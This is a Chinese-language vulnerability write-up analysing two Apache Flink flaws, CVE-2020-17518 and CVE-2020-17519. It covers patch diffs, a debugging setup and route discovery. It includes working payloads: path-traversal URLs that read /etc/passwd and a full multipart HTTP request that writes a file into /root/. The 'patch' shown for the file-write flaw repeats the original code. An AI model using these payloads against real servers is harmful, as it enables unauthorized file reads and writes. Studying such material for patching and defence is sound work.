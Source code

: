 # Flink 任意文件读取和写入

## **一、前言**

Apache Flink 两个高危漏洞(CVE-2020-17518&CVE-2020-17519),分别是任意文件写入和任意文件读取.

## **二、commit 分析**

1、[任意文件读取](https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801)

原代码
```java
String filename = handlerRequest.getPathParameter(LogFileNamePathParameter.class);
```

补丁
```java
String filename = new File(handlerRequest.getPathParameter(LogFileNamePathParameter.class)).getName();
```

通过补丁代码，粗略知道`handlerRequest`变量可控, 能够实现任意文件读取.



2、[任意文件写入](https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4)

原代码
```java
final Path dest = currentUploadDir.resolve(new File(fileUpload.getFilename()).getName());
fileUpload.renameTo(dest.toFile());
```

补丁
```java
final Path dest = currentUploadDir.resolve(new File(fileUpload.getFilename()).getName());							fileUpload.renameTo(dest.toFile());
```

通过补丁代码, 粗略知道`fileUpload`变量可控, 能够实现任意文件写入.

## **三、服务搭建 & 路由信息获取**

### ***服务搭建***

1、下载包[flink](https://github.com/apache/flink/releases)

2、开启 jdwp 端口

修改 `cong/flink-conf.yaml` 文件，增加

```java
env.java.opts.jobmanager: "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=8006"
```

3、IntelliJ IDEA 打开第一步中的项目, 编辑远程调试配置

4、访问 http://ip:8081

### ***路由信息获取***

访问 Flink Web UI, 访问页面, 让页面报错. 我这里通过上传一个非 jar 文件使项目报错, 然后获取日志, 看日志中异常信息

```java
ERROR org.apache.flink.runtime.webmonitor.handlers.JarUploadHandler [] - Exception occurred in REST handler: Only Jar files are
 allowed.
```

然后在 `org.apache.flink.runtime.webmonitor.handlers.JarUploadHandler` 下断点, 重新上传 jar 包. 再次访问时, 能成功触发断点. 通过调用栈, 找到该项目的路由类和路由变量.  

## **四、漏洞分析**

1、任意文件读取

通过上面获取到的路由变量, 在 get 方法请求中找到 JobManagerCustomLogHandler 这个处理类. 然后根据 pattern 获取到 JobManagerCustomLogHandler 能处理 `v1/jobmanager/logs/:filename` 和 `jobmanager/logs/:filename` 两种请求. 通过分析, `filename`可控, 并且对变量值做了两次`url`解码. 所以最终的`payload`有

```java
http://ip:8081/v1/jobmanager/logs/..%252f..%252f..%252f..%252fetc%252fpasswd
http://ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252fetc%252fpasswd
```

2、任意文件写入

任意文件写入触发类是 `org.apache.flink.runtime.rest.FileUploadHandler`, 该类调用发生在路由解析之前, 而且`filename`可控

```java
DiskFileUpload fileUpload = (DiskFileUpload)data;
Preconditions.checkState(fileUpload.isCompleted());
Path dest = this.currentUploadDir.resolve(fileUpload.getFilename());
fileUpload.renameTo(dest.toFile());
LOG.trace("Upload of file {} complete.", fileUpload.getFilename());
```

fileUpload 会先在 /tmp 目录下缓存文件, 然后再通过 filename 将文件移动. 所以构造 poc 如下:


```java
POST /test HTTP/1.1
Host: ip:8081
Content-Length: 208
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryw6W3L7dPchtqPO4f
Origin: http://ip:8081
Referer: http://ip:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryw6W3L7dPchtqPO4f
Content-Disposition: form-data; name="xxxx"; filename="/root/test123"
Content-Type: application/octet-stream

test123
------WebKitFormBoundaryw6W3L7dPchtqPO4f--


```


然后我们会在 `/root/` 目录下找到 `test123` 文件. 至于文件上传处理为什么放在路由处理之前, 有一点存疑



## **参考**

https://lists.apache.org/thread.html/rb43cd476419a48be89c1339b527a18116f23eec5b6df2b2acbfef261%40%3Cdev.flink.apache.org%3E

https://lists.apache.org/thread.html/r6843202556a6d0bce9607ebc02e303f68fc88e9038235598bde3b50d%40%3Cdev.flink.apache.org%3E